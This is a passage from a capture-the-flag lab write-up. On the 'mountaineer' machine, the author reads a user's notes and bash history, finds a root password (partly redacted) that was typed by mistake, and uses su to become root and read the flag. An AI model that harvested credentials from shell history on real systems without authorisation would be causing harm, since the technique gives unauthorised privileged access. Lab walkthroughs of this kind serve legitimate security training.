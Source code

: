 ## Shell as root

### Checking the Bash History

Reading the `mynotes.txt` file in the user's home directory, we find an interesting note about the `root` user using our current user's account.

```console
kangchenjunga@mountaineer:~$ ls -la
total 20
drwxr-xr-x  2 root          root          4096 Mar 18  2024 .
drwxr-xr-x 11 root          root          4096 Mar 16  2024 ..
-rw-r-----  1 kangchenjunga kangchenjunga  303 Mar 18  2024 .bash_history
-rw-r-----  1 root          kangchenjunga   33 Mar 16  2024 local.txt
-rw-r-----  1 kangchenjunga kangchenjunga  216 Mar 16  2024 mynotes.txt

kangchenjunga@mountaineer:~$ cat mynotes.txt
Those my notes:

1. Tell root stop using my account ! It's annoying !
2. Travel to Mars sometime, I heard there are great mountains there !
3. Make my password even harder to crack ! I don't want anyone to hack me !
```

We also see the `.bash_history` file, and upon reading it, we find some commands run by the `root` user, as well as the `root` user's password.

```console
kangchenjunga@mountaineer:~$ cat .bash_history
ls
cd /var/www/html
nano index.html
cat /etc/passwd
ps aux
suroot
th[REDACTED]ss
whoami
...
```

Using the password we discovered, we can switch to the `root` user and read the final flag at `/root/root.txt`.

```console
kangchenjunga@mountaineer:~$ su - root
Password:
root@mountaineer:~# id
uid=0(root) gid=0(root) groups=0(root)
root@mountaineer:~# wc -c /root/root.txt
33 /root/root.txt
```

## Alternative Way for Foothold

